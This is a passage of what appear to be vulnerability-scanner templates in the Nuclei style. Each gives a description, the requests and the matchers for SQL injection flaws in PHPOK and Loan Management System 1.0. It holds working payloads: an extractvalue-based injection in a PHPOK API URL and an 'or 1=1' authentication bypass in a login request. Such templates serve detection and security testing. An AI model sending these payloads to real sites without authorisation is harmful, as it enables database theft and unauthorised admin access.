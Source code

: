 **Type - word**
- part - body
- words
    1. Admin Panel
    2. Log Out
    3. Employee Management System
- condition - and

**Type - status**
- status
    1. 200

---
# PHPOK - SQL Injection
## Description
- PHPOK contains a SQL injection vulnerability via a GET request. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - phpok,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/api.php?c=project&f=index&token=1234&id=news&sort=1 and extractvalue(1,concat(0x7e,md5({{num}}))) --+
### Matchers

**Type - word**
- part - body
- words
    1. {{md5({{num}})}}

---
# Loan Management System 1.0 - SQL Injection
## Description
- Loan Management System 1.0 contains a SQL injection vulnerability via the username parameter. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - auth-bypass,cms,packetstorm,edb,loancms,sqli
## Requests
### Step - 1
```
POST /ajax.php?action=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin'+or+'1'%3D'1'%23&password=nuclei

```
### Step - 2
```
GET /index.php?page=home HTTP/1.1
Host: {{Hostname}}

```